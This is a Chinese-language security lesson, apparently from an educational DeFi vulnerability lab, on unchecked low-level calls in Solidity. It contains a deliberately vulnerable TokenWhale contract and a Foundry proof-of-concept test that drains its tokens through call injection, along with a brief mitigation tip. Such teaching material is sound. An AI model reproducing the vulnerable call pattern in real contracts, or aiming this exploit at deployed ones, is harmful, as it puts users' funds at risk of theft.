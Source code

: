 # 未经检查的外部调用——调用注入  
[UnsafeCall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/UnsafeCall.sol)  
**名称：**  不安全的调用漏洞  
**描述：**  
在 TokenWhale 合约的 approveAndCallcode 函数中。该漏洞允许
使用任意数据执行任意的调用，从而导致潜在安全风险和意外后果。
该函数使用低级调用 (_spender.call(_extraData))执行来自 _spender 地址的代码，而不对所提供的 _extraData 进行任何验证或检查。  
这可能导致意外行为、重入攻击或未经授权的操作。

本练习是关于对合约的低级调用，其中不检查输入和返回值  
如果调用数据是可控的，就很容易导致任意函数的执行。  



**缓解建议：**   
应该尽可能的避免使用低级别的“调用”。  
**参考**  
https://blog.li.fi/20th-march-the-exploit-e9e1c5c03eb9  


**TokenWhale 合约：**  
```
contract TokenWhale {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000; // 1 mil
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }

    /* 批准后调用合约代码*/
    function approveAndCallcode(
        address _spender,
        uint256 _value,
        bytes memory _extraData
    ) public {
        allowance[msg.sender][_spender] = _value;

        bool success;
        //有漏洞的调用执行不安全的代码 
        (success, ) = _spender.call(_extraData);
        console.log("success:", success);
    }
}
```  


**如何测试：**  
forge test --contracts src/test/UnsafeCall.sol-vvvv  
```
// 测试不安全调用的函数
function testUnsafeCall() public {
    // 设置环境变量
    address alice = vm.addr(1);
    TokenWhaleContract = new TokenWhale();
    TokenWhaleContract.TokenWhaleDeploy(address(TokenWhaleContract));

    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );

    // Alice试图执行不安全的调用以从TokenWhaleContract转移资产
    console.log(
        "Alice tries to perform unsafe call to transfer asset from TokenWhaleContract"
    );

    // 使用 vm.prank()函数更改 msg.sender
    vm.prank(alice);

    // Alice 使用表示对传递函数的调用的编码数据调用 approveAndCallcode函数
    TokenWhaleContract.approveAndCallcode(
        address(TokenWhaleContract),
        0x1337, // 不影响漏洞利用
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            address(alice),
            1000
        )
    );

    // 检查漏洞利用是否成功
    assertEq(TokenWhaleContract.balanceOf(address(alice)), 1000);
    console.log("Exploit completed");

    // 记录最终余额
    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );
    console.log(
        "Alice balance:",
        TokenWhaleContract.balanceOf(address(alice))
    );
}

// 接收以太币的回退函数
receive() external payable {}
```  
**红色框：** 攻击成功，清空了TokenWhale合约。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fef522203-1293-43f6-bf50-746d2a4b8457%2FUntitled.png?table=block&id=442bc8fe-4714-4112-a892-725b88a7b32e&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
